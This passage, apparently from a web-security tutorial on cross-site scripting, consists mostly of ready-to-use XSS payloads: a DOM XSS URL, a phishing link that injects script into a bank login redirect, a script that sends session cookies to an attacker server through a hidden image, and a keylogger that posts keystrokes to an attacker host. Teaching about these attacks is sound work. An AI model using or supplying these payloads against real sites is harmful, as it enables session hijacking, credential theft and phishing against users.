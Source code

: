 **Malicious URL:**
```
https://vulnerable-site.com/welcome.html#<script>alert('DOM XSS!')</script>
```

## Real-World XSS Attack Vectors

### Social Engineering Through XSS

**Email Phishing:**
```html
<!-- Malicious email content -->
<p>Click here to view your account: 
<a href="https://bank-site.com/login?redirect=<script>location.href='https://attacker-site.com/phish?cookie='+document.cookie</script>">
View Account
</a>
</p>
```

### Session Hijacking

```javascript
// Malicious script to steal session cookies
<script>
(function() {
    // Create invisible image to send cookie data
    const img = document.createElement('img');
    img.style.display = 'none';
    img.src = 'https://attacker-server.com/collect?data=' + 
              encodeURIComponent(document.cookie);
    document.body.appendChild(img);
})();
</script>
```

### Keylogger Implementation

```javascript
// Sophisticated keylogger XSS payload
<script>
(function() {
    let keystrokes = '';
    document.addEventListener('keypress', function(e) {
        keystrokes += String.fromCharCode(e.which);
        
        // Send data every 10 characters
        if (keystrokes.length > 10) {
            fetch('https://attacker-site.com/keys', {
                method: 'POST',
                body: JSON.stringify({ keys: keystrokes }),
                headers: { 'Content-Type': 'application/json' }
            });
            keystrokes = '';
        }
    });
})();
</script>
```
